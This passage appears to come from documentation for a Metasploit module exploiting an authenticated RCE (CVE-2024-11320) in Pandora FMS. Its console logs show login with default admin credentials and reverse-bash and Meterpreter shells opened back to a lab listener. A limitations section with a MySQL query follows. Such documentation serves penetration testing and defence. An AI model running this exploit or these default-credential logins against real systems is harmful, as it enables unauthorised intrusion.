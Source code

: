 ```msf
[*] Meterpreter session 28 opened (192.168.201.8:4444 -> 192.168.201.6:59242) at 2024-12-22 10:35:05 +0000
[+] Payload is successful removed from LDAP configuration.

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www/html/pandora_console
meterpreter >
```
###  Pandora FMS v7.0NG.777 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the default admin credentials (admin:pandora) of the Pandora FMS application
to gain the privileges for the RCE.
```msf
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set target 1
target => 1
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > set password pandora
password => pandora
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_11320) > exploit
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:pandora at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 29 opened (192.168.201.8:4444 -> 192.168.201.6:37616) at 2024-12-22 10:57:58 +0000
[+] Payload is successful removed from LDAP configuration.

pwd
/var/www/html/pandora_console
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
```

## Limitations
In older versions of Pandora FMS, you might run into error 'Unable to login from this host due to policy' if you try to connect
to the MySQL database with the default database credentials.
This is caused by the restrictive host settings at the MySQL database which is default set to `localhost` and `127.0.0.1`.
You can check this with the SQL command below if you have local access to the database.
```
SELECT host FROM mysql.user WHERE user = "pandora";
+-----------+
| host      |
+-----------+
| 127.0.0.1 |
| localhost |
+-----------+
```